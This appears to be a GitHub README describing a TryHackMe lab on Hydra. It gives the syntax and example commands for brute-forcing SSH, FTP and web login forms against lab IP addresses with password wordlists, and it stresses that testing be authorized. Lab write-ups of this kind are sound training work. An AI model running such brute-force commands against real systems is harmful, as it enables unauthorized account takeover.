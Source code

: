 
# 🐉 Hydra – Credential Brute-Forcing Lab

## 📄 Overview
This lab from TryHackMe demonstrates the use of **Hydra**, a tool for brute-forcing credentials on various authentication services such as **SSH, FTP, SNMP, and web applications**.  
It was completed in a controlled, authorized environment as part of my hands-on cybersecurity training.

---

## 📌 Objective
- Learn how to perform credential brute-forcing on multiple protocols.
- Understand Hydra syntax and its key options.
- Practice attacking SSH, FTP, and POST-based web forms.
- Interpret failed login responses for successful automation.

---

## 🛠 Tools Used
- **Hydra** – Credential brute-force tool  
- **Wordlists** – For testing possible passwords  
- **Kali Linux** – Attack platform  

---

## 🔍 Commands & Usage

### FTP
```bash
hydra -l user -P <filename> ftp://<IP_ADDRESS>

### SSH
---bash



**Options:**

* `-l` → Single username
* `-P` → Password list
* `-t` → Number of threads

---

## 🌐 POST Web Form

**Syntax:**

```bash
sudo hydra <username> -P <wordlist> <IP_ADDRESS> \
http-post-form "/<path>:username=^USER^&password=^PASS^:<invalid_response>" -v
```

**Parameters:**

* `http-post-form` → Indicates POST request type
* `<path>` → Login page URL path
* `<login_credentials>` → Fields for username and password
* `<invalid_response>` → Response text when login fails
* `-v` → Verbose mode

---

**1. SSH Brute Force**

```bash
hydra -l admin -P passwords.txt 10.10.10.5 -t 4 ssh
```

**2. FTP Brute Force**

```bash
hydra -l testuser -P rockyou.txt ftp://10.10.10.8
```

**3. Web Form Brute Force**

```bash
hydra -l admin -P wordlist.txt 10.10.10.6 \
http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -v
```

---

## 📚 What I Learned

* How to configure and execute Hydra attacks on multiple services.
* The importance of selecting efficient **wordlists**.
* How to identify **failure messages** for web form brute-forcing.
* Balancing speed and detection with the `-t` option.
* Reinforcing the principle of **ethical hacking**: only perform testing in authorized environments.

---




